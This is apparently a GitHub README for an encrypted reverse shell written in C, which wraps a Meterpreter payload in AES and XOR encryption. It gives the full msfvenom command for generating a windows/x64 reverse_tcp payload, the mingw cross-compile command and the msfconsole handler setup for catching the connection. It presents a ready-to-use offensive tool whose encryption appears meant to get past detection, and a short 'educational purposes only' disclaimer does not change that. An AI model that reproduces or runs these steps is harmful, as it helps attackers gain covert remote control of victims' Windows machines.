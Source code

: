 # Encrypted Reverse shell in C

Created a simple reverse shell in C that is encrypted using  AES and XOR  algorithm.


The reverse shell is pretty much hardcoded with my IP and port number. You can change it to your own IP and port number.

Using msfvenom to generate a reverse shell payload. The command line i used to generate the payload is:

```bash
    msfvenom --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=4444 EXITFUNC=thread -f c
```

Then this can be pasted in the `reverse.c` file.

## Usage

### Linux Compilation 

```bash
    x86_64-w64-mingw32-gcc reverse.c aes.c -o exec_file_name.exe
```

#### Dependencies
- mingw32-gcc

### msfconsole
 run: 
```bash
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST <Your IP>
    set LPORT 4444
    exploit
```

and wait for the connection, and use "shell" to pop the shell.


## References

- AES encryption and decryption code is taken from kokke's [Tiny AES in C](https://github.com/kokke/tiny-AES-c)

- Inpired in screek reverse shell video. 
## Disclaimer

This reverse shell is for educational purposes only. I am not responsible for any misuse of this code.
